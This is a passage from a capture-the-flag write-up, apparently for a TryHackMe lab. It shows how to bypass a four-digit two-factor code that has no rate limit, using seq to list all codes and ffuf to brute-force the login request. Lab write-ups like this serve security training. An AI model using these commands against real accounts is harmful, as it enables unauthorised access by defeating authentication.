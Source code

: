 <br /><br />





**Login with the credientials.**

You will get Flag 1. Also, there was a two-factor authentication. So we need to bypass it.



![](/assets/img/thm/intranet/6.png)

<br /><br />

---

### Flag 2

<br />

**The 2FA code was four characters and there was not rate limit. so we can easily bypass it by generating a file containing numbers from 0000 to 9999.**

```bash
root@ip-10-10-237-59:~/Desktop# seq -f "%04g" 0 9999 > 2fa.txt
```

<br />

**Use ffuf to get the correct 2FA code**

**Note:** The 2FA code was dynamically generated. So each time, you will log in. You need to bruteforce the code to get the new one.

```bash
root@ip-10-10-237-59:~/Desktop# ffuf  -request sms.txt -request-proto http -w ./2fa.txt -fw 168
OR
root@ip-10-10-237-59:~/Desktop# ffuf  -request sms.txt -request-proto http -w ./2fa.txt -fc 200
```

<br /><br />

